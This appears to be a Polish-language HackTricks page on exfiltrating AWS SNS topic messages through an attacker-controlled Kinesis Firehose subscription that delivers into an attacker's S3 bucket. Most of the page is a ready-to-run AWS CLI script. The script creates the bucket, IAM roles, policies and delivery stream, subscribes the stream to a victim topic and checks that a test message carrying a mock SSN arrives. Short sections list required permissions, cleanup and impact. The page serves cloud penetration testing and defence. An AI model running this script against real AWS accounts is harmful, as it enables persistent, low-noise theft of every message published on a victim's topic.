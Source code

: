 # AWS - SNS to Kinesis Firehose Exfiltration (Fanout to S3)

{{#include ../../../../banners/hacktricks-training.md}}

Wykorzystaj protokół subskrypcji Firehose, aby zarejestrować kontrolowany przez atakującego Kinesis Data Firehose delivery stream na standardowym topicu SNS ofiary. Gdy subskrypcja zostanie utworzona i wymagana rola IAM zaufa `sns.amazonaws.com`, każda przyszła notyfikacja będzie trwale zapisywana w S3 bucket atakującego przy minimalnym hałasie.

## Wymagania
- Uprawnienia na koncie atakującego do utworzenia S3 bucket, Firehose delivery stream oraz roli IAM używanej przez Firehose (`firehose:*`, `iam:CreateRole`, `iam:PutRolePolicy`, `s3:PutBucketPolicy`, itd.).
- Możliwość wykonania `sns:Subscribe` do topicu ofiary (i opcjonalnie `sns:SetSubscriptionAttributes`, jeśli ARN roli subskrypcji zostanie podany po utworzeniu).
- Polityka topicu pozwalająca principalowi atakującego na subskrypcję (lub atakujący już działa w tym samym koncie).

## Kroki ataku (przykład w tym samym koncie)
```bash
REGION=us-east-1
ACC_ID=$(aws sts get-caller-identity --query Account --output text)
SUFFIX=$(date +%s)

# 1) Create attacker S3 bucket and Firehose delivery stream
ATTACKER_BUCKET=ht-firehose-exfil-$SUFFIX
aws s3 mb s3://$ATTACKER_BUCKET --region $REGION

STREAM_NAME=ht-firehose-stream-$SUFFIX
FIREHOSE_ROLE_NAME=FirehoseAccessRole-$SUFFIX

# Role Firehose assumes to write into the bucket
aws iam create-role --role-name "$FIREHOSE_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "firehose.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/firehose-s3-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["s3:AbortMultipartUpload","s3:GetBucketLocation","s3:GetObject","s3:ListBucket","s3:ListBucketMultipartUploads","s3:PutObject"],"Resource":["arn:aws:s3:::$ATTACKER_BUCKET","arn:aws:s3:::$ATTACKER_BUCKET/*"]}]}
JSON
aws iam put-role-policy --role-name "$FIREHOSE_ROLE_NAME" --policy-name AllowS3Writes --policy-document file:///tmp/firehose-s3-policy.json

aws firehose create-delivery-stream \
--delivery-stream-name "$STREAM_NAME" \
--delivery-stream-type DirectPut \
--s3-destination-configuration RoleARN=arn:aws:iam::$ACC_ID:role/$FIREHOSE_ROLE_NAME,BucketARN=arn:aws:s3:::$ATTACKER_BUCKET \
--region $REGION >/dev/null

# 2) IAM role SNS assumes when delivering into Firehose
SNS_ROLE_NAME=ht-sns-to-firehose-role-$SUFFIX
aws iam create-role --role-name "$SNS_ROLE_NAME" --assume-role-policy-document '{
"Version": "2012-10-17",
"Statement": [{"Effect": "Allow","Principal": {"Service": "sns.amazonaws.com"},"Action": "sts:AssumeRole"}]
}'

cat > /tmp/allow-firehose.json <<JSON
{"Version":"2012-10-17","Statement":[{"Effect":"Allow","Action":["firehose:PutRecord","firehose:PutRecordBatch"],"Resource":"arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME"}]}
JSON
aws iam put-role-policy --role-name "$SNS_ROLE_NAME" --policy-name AllowFirehoseWrites --policy-document file:///tmp/allow-firehose.json

SNS_ROLE_ARN=arn:aws:iam::$ACC_ID:role/$SNS_ROLE_NAME

# 3) Subscribe Firehose to the victim topic
TOPIC_ARN=<VICTIM_TOPIC_ARN>
aws sns subscribe \
--topic-arn "$TOPIC_ARN" \
--protocol firehose \
--notification-endpoint arn:aws:firehose:$REGION:$ACC_ID:deliverystream/$STREAM_NAME \
--attributes SubscriptionRoleArn=$SNS_ROLE_ARN \
--region $REGION

# 4) Publish test message and confirm arrival in S3
aws sns publish --topic-arn "$TOPIC_ARN" --message 'pii:ssn-123-45-6789' --region $REGION
sleep 90
aws s3 ls s3://$ATTACKER_BUCKET/ --recursive
```
## Czyszczenie
- Usuń subskrypcję SNS, Firehose delivery stream, tymczasowe role/polityki IAM oraz S3 bucket atakującego.

## Wpływ
**Potencjalny wpływ**: Ciągła, trwała eksfiltracja każdej wiadomości publikowanej w docelowym temacie SNS do magazynu kontrolowanego przez atakującego przy minimalnym śladzie operacyjnym.

{{#include ../../../../banners/hacktricks-training.md}}
